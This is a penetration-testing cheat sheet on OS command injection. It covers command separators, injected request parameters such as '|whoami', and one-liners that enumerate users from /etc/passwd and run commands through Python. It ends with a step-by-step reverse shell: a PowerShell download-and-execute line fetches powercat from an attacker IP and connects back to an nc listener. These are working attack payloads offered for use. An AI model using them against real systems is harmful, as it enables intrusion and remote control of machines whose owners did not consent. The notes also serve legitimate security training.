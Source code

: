 # OS Command Injection
Also known as "shell injection"

OS Command Injection Web applications often need to interact with the underlying operating system, such as when a file is created through a file upload mechanism.
Web applications should always offer specific APIs or functionalities that use prepared commands for the interaction with the system. Prepared commands provide a set of functions to the underlying system that cannot be changed by user input. However, these APIs and functions are often very time consuming to plan and develop. Sometimes a web application needs to address a multitude of different cases, and a set of predefined functions can be too inflexible. In these cases, web developers often tend to directly accept user input, then sanitize it. This means that user input is filtered for any command sequences that might try to change the application's behavior for malicious purposes.

















Semicolons can be used in a majority of command lines, such as PowerShell or Bash as a delimiter for multiple commands. Alternatively, we can use URL-encoded semicolon, represented as `%3B`

Two ampersands `&&` to specify two consecutive commands.
For the Windows CMD we can also use one ampersand `&`.














Placing the additional command separator & after the injected command is useful because it separates the injected command from whatever follows the injection point. This reduces the chance that what follows will prevent the injected command from executing.

Example:
`productId=8&storeId=1|whoami`
`productId=8 & whoami & storeId=1`
`productId=8 & whoami # (this is a comment) storeId=1`












How many non-root/non-service/non-daemon users are there?
`awk -F':' '{ if ($3 >= 1000 && $1 != "nobody" ) print $1 }' /etc/passwd | wc -l`

What is the [USER]'s shell set as?
`getent passwd [USER]| awk -F':' '{print $7}'`
	- eg: `getent passwd www-data | awk -F':' '{print $7}'`










## Python
import os; print(os.popen("ls -l").read())
import os; print(open("path/to/your/file.txt", "r").read())









## Windows
Tell wheter is CMD or PowerShell:
```
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
```






### Leverage command injection to achieve system access

- `Powercat` <https://github.com/besimorhino/powercat>


1. Serve `powercat.ps1` from ATTACKER MACHINE
```
python3 -m http.server
```
2. create a Netcat listener on port 4444 to catch the reverse shell
```
nc -nvlp 4444
```

3. From VICTIM
```
IEX (New-Object System.Net.Webclient).DownloadString("http://[ATTACKER IP]/powercat.ps1");powercat -c [ATTACKER IP] -p [PORT] -e powershell
```













